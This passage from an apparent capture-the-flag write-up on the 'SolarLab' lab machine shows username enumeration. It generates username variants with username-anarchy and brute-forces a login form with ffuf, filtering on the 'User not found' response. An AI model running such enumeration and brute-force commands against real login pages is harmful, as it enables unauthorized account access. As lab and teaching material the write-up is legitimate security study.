 ![](/assets/images/Solarlab/Pasted%20image%2020240921100742.png)

When the username doesn't exists it says "User not found":

![](/assets/images/Solarlab/Pasted%20image%2020240921101022.png)

# Access as blake

I will create all the possible combinations of usernames using `username-anarchy` with the names I got before in the excel:

```bash
❯ cat fullnames.txt
Alexander Knight
Blake Byte
Claudia Springer
❯ /opt/username-anarchy/username-anarchy -i fullnames.txt > users-to-test.txt
```

And bruteforce for valid users filtering the responses that contains the string 'User not found' because is what the page gives if the user is not found:

```bash
❯ ffuf -w users-to-test.txt -d 'username=FUZZ&password=test' -X POST -u http://report.solarlab.htb:6791/login -H "Content-Type: application/x-www-form-urlencoded" -mc all -fr 'User not found.'

```